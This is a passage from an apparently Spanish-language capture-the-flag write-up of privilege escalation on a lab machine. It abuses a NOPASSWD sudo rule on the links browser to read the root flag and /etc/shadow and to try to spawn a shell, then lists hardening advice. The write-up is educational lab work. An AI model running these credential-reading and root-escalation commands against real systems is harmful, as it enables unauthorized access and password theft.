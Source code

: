 ## **Escalada de Privilegios**

### 9. Enumeración de Permisos Sudo
```bash
sudo -l
```

**Resultado**:
```
User aleister may run the following commands on wicca:
    (root) NOPASSWD: /usr/bin/links
```

### 10. Explotación de Binario Links
```bash
# Leer flag de root directamente
sudo links -dump file:///root/root.txt
```

**Alternativas de explotación**:
```bash
# Leer cualquier archivo del sistema
sudo links -dump file:///etc/shadow

# Intentar obtener shell (depende de versión)
sudo links -dump 'file:///bin/bash -c "/bin/bash"'
```

### 11. Flag de Root
- **Root Flag**: `[Redacted]`

## **Conclusión**

### Vulnerabilidades Críticas
1. **Inyección de comandos** en aplicación Node.js
2. **Falta de validación** de entrada en parámetro URL
3. **Permisos sudo peligrosos** en binario links

### Hardening Recomendado
- Validar y sanitizar todas las entradas de usuario
- Restringir permisos sudo innecesarios
- Implementar principio de mínimo privilegio
- Actualizar y parar aplicaciones regularmente

### Técnicas Aplicadas
1. **Escaneo de puertos** con Nmap
2. **Análisis de aplicaciones web**
3. **Inyección de comandos** en Node.js
4. **Reverse shell** con netcat
5. **Escalada de privilegios** mediante binario con sudo

---
